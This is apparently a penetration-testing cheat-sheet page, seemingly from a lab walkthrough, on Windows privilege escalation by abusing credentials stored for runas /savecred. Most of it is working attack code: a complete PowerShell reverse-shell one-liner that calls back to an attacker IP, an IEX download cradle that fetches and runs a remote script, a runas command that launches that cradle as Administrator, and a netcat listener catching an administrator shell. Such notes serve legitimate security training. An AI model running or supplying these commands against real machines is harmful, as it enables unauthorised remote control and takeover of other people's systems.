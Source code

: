 ```yaml
---
description: Windows Privilege Escalation using Runas.
---
```


# Runas (Stored Credentials)

Runas is a windows command line tool that allows users to run other tools, programs or commands with permissions of another user. If a user's credentials are cached in the system, the Runas command can be run using the /savecred flag which will automatically authenticate and execute the command as that user.

### Cmdkey

Cmdkey is a Windows command-line utility that is used to create, list, and delete stored user names and passwords or credentials.

With `cmdkey /list` we can retrieve a stored credential for "ACCESS\Administrator

```
C:\Users\security>cmdkey /list

Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

Windows may save credentials for several reasons

* sysadmin configured an application to run as an admin with /savecred specified
* sysadmin choose to use it to not repeatedly enter admin password
* run an application with elevated privileges.&#x20;

{% hint style="info" %}
For a powershell reverse shell&#x20;

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.4',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Then host the ps1 file and call it from the target: `START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.4:8000/ps_rev.ps1')`

`START` will start a new process without creating a window for it and also operating independently of the original session, such as a Telnet session.
{% endhint %}

### Privilege escalation

<details>

<summary>Enumerate .lnk files for runas commands</summary>

```
> Get-ChildItem "C:\" *.lnk -Recurse -Force | ft fullname | Out-File shortcuts.txt
> ForEach($file in gc .\shortcuts.txt) { Write-Output $file; gc $file |
Select-String runas }
```

</details>

To escalate privielges we can start powershelll using runas with ACCESS\administrator

```powershell
# runas
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.4:8000/ps_rev.ps1')"

# runas 
runas user passwd powershell.exe -r 10.10.14.9:1443
```

And on our listener we receive the connection

```
nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.98] 49171
whoami
zencorp\administrator
PS C:\Windows\system32> 
```

> So check cmdkey /list to check for stored credentials which can be used with runas, like `runas /user:ACCESS\Administrator`
